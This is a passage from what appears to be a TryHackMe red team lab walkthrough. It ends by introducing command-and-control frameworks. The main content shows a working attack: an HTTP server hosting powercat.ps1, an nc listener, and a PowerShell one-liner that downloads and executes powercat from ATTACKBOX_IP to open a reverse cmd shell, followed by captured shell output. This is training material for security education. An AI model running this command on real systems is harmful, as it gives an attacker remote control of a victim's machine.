 ```ps1 title="Terminal"
user@machine$ cd powercat
user@machine$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
```

On the AttackBox, we need to listen on port `1337` using `nc` to receive the connection back from the victim.

```ps1 title="Terminal"
user@machine$ nc -lvp 1337
```

Now, from the victim machine, we download the payload and execute it using PowerShell payload as follows,

```ps1 title="Terminal"
C:\Users\thm\Desktop> powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKBOX_IP:8080/powercat.ps1');powercat -c ATTACKBOX_IP -p 1337 -e cmd"
```

Now that we have executed the command above, the victim machine downloads the `powercat.ps1` payload from our web server (on the AttackBox) and then executes it locally on the target using `cmd.exe` and sends a connection back to the AttackBox that is listening on port `1337`. After a couple of seconds, we should receive the connection call back:

```ps1 title="Terminal"
user@machine$ nc -lvp 1337  listening on [any] 1337 ...
10.10.12.53: inverse host lookup failed: Unknown host
connect to [10.8.232.37] from (UNKNOWN) [10.10.12.53] 49804
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Users\thm>
```

## __Task 7: Command And Control - (C2 Or C&C)__

This task introduces the basic concept of Command and Control (C2) frameworks used in Red team operations.

![Alt text](image-1.png)
